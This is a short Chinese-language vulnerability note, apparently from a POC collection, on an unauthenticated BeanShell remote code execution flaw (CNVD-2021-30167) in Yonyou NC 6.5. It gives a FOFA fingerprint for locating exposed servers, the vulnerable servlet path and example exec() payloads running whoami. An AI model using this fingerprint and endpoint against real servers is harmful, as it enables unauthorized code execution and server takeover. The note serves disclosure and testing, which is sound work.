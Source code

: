 # 用友NC BeanShell远程代码执行

编号: CNVD-2021-30167

影响版本: NC6.5

fofa指纹: icon_hash="1085941792"

该漏洞是由于用友NC对外开放了BeanShell接口，攻击者可以在未授权的情况下直接访问该接口，并构造恶意数据执行任意代码并获取服务器权限。

POC：
```bash
# get
/servlet/~ic/bsh.servlet.BshServlet
```

eg:
```bash
exec("whomai")
exec("cmd /c whoami")
exec("/bin/sh whoami")
```

注：该脚本中的命令执行, 仅适用于Windoes, Linux请手动测试, 如路径中包含 `\` 请替换为 `\\` 。

![image-20210604183648070](https://oss.zjun.info/zjun.info/20210604183654.png)